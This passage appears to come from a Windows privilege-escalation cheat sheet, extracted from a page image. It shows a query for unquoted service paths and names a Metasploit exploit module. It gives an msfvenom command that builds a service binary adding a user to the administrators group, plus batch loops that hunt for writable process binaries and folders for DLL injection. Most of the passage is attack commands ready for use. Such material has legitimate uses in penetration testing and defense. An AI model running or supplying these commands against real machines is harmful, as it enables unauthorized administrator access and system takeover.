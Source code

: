 ```
	)
)
```
-also-
```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
You can detect and exploit this vulnerability with metasploit: `exploit/windows/local/trusted_service_path`
You can manually create a service binary with msfvenom: `msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe`



## Get running processes
Lists all the service information for each process with `tasklist /svc`. Valid when the `/fo <format>` parameter is set to table (default format). Can be run remotely with `/s <name or IP address>` and credentialed with `/u <username>` and `/p <password>`. `/v` = verbose

With usernames of process owner
`Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize`

Without usernames
`Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id`

### Check permissions of the process binaries
```
for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v "system32"^|find ":"') do (
	for /f eol^=^"^ delims^=^" %%z in ('echo %%x') do (
		icacls "%%z" 
2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo.
	)
)
```
### Check permissions of the folders of the process binaries (useful for dll injection)
```
for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v 
"system32"^|find ":"') do for /f eol^=^"^ delims^=^" %%y in ('echo %%x') do (
	icacls "%%~dpy\" 2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users 
todos %username%" && echo.
)
```
## Get current network connections
`netstat -ano` 

